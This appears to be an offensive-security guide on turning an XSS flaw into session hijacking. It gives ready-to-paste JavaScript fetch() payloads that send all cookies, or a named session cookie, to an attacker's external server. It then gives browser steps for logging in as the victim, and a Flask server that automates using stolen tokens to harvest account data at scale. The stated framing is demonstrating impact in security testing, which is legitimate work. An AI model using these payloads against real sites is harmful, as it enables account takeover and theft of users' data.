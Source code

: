 Suppose the HttpOnly attribute is disabled for the primary session token. In that case, we can use the local JavaScript in our XSS payload to exfiltrate the cookie and send it to an external location.

This Impact Technique has two steps:
1. Retrieve the cookie
2. Use the cookie

# 1. Retrieving the Cookie

Here are some examples of JavaScript code we can use. These examples assume you've already discovered a working XSS payload. So, they do not include the surrounding HTML attributes (`<script>`, `<img>`, etc.). 

Use one example from this list to retrieve the victim's session cookie. Paste an example below into your XSS payload, in place of `alert(1)` or whatever original JavaScript you used to detect the XSS vulnerability. Then, replace `<SERVER-URL>` with your external server URL (Burp Collaborator, etc.).

## Exfiltrate All Cookies

```javascript
fetch("<SERVER-URL>/cookie?" + encodeURIComponent(document.cookie));
```
- Uses the [fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch)

## Exfiltrate Specific Cookie
```javascript
function getCookie(t){let e=t+"=",n=decodeURIComponent(document.cookie).split(";");for(let r=0;r<n.length;r++){let i=n[r];for(;" "==i.charAt(0);)i=i.substring(1);if(0==i.indexOf(e))return i.substring(e.length,i.length)}return""};

fetch("<SERVER-URL>/cookie?<COOKIE-NAME>=" + encodeURIComponent(getCookie("<COOKIE-NAME>")));
```
- Sometimes, it is helpful to extract only a specific cookie or group of cookies. In this case, we need a function to pull a cookie by name.
- Substitute `<COOKIE-NAME>` with the name of the cookie you want to exfiltrate.

# 2. Using the Cookie

After you have the user's session cookie, use the technique below to demonstrate impact.

## Burp Collaborator (Manual)
If you chose Burp Collaborator as your external server above, you probably received a cookie like so:
![](Pasted%20image%2020240124093524.png)

Copy the cookie to your clipboard. 

Then, open the developer console and paste the cookie into your browser:
(Firefox)
![](Pasted%20image%2020240124094121.png)

(Chrome)
![](Pasted%20image%2020240124094240.png)

Now, refresh the web page. You should be logged in as the target user. Perform some interesting action like downloading their data, making a purchase, sending a message, etc.

## Flask Server (Automated):
You can use the following Flask server to automate the process. You should use this Flask Server if you need to demonstrate how an attack could be performed at scale. For example, if your impact involves using the exfiltrated session token to steal some form of sensitive data from the user's account, it would not be feasible to manually hijack each compromised user's session and download the data. Instead, you could send the exfiltrated cookie to a Flask server, which automatically performs the data exfiltration:

```python
from flask import Flask, request
import requests

app = Flask(__name__)

@app.route('/exfiltrate')
def index():
    token = request.args.get('<COOKIE-NAME>')
    cookies = {"<COOKIE-NAME>": token}

	# Change request as needed
    r = requests.get("<TARGET-SERVER-URL>", cookies=cookies)
    
    # Change "collection" method as needed; e.g., print to console, write to file, etc.
    print(r.text)
    return "OK"


app.run(host='0.0.0.0', port=80)

```
- Replace `<COOKIE-NAME>` with the name of the cookie you have exfiltrated (this code assumes the cookie will arrive as a GET parameter)
- Replace `<TARGET-SERVER-URL>` with the URL and endpoint that serves the sensitive data you wish to collect.
- If you aren't collecting sensitive data, or the sensitive data endpoint doesn't accept GET requests, change the call(s) to `requests.get` as needed.
- Change the collection method as needed (e.g., the above example just dumps the entire response to the console; you may wish to save the data to a file, etc.).
- Run with `python3 app.py` (may need `sudo`). 
- Make sure port 80 is publicly accessible on your server.